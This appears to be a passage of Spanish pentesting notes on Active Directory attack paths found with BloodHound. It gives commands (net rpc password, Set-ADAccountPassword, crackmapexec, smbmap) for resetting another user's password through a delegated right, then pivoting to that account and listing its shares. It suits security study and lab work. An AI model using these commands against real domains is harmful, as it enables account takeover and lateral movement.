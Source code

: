 Los iconos se llaman nodos y las líneas, bordes. Si queremos formular una ruta de ataque, debemos observar los bordes disponibles entre la posición actual, los privilegios que tenemos y el destino al que queremos llegar. Bloodhound tiene varios bordes disponibles a los que se puede acceder mediante el icono de filtro.


# Posible vulnerabilidad: Cambiar contraseña a otro usuario (habilitado)

Si en la pestaña de 'node info' dentro de Bloodhound, tenemos el 'outbound object control' y si sale una línea que une a otro usuario y pone que puede cambiar la contraseña a otro usuario, entonces puedo cambiarle la contraseña y hacer pivoting a ese usuario.

Una forma para cambiar la contraseña de un usuario, autenticándose con las credenciales de otro:

```
net rpc password <usuarioAcambiarPass> -U <userQueTengo> -S <IP>
```

Y poner la contraseña nueva del usuario y después la del usuario que tengo.

Otra forma: cambiar la contraseña del usuario con powershell:

```
PS C:\Users\creanyx0> Set-ADAccountPassword <user> -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
```

Como no queremos que el usuario al que le hemos cambiado la contraseña siga usando una contraseña que conocemos, también podemos forzar el restablecimiento de la contraseña en el próximo inicio de sesión con el siguiente comando:

```
PS C:\Users\creanyx0> Set-ADUser -ChangePasswordAtLogon $true -Identity <user> -Verbose
```

Probar que se ha cambiado bien:

```
crackmapexec smb <dominio> -u '<user>' -p '<contraseña>'
```

Y ahora puedo listar recursos compartidos con el nuevo usuario:

```
smbmap -H <IP> -u <usuarioQueHemoscambiadoPass> -p <contraseña>
```


# Posible vulnerabilidad: Delegated control

El proceso de otorgar privilegios a un usuario sobre alguna OU u otro objeto de AD se denomina control delegado. Por ejemplo, podemos cambiar los privilegios.


# Posible vulnerabilidad: constrained delegation
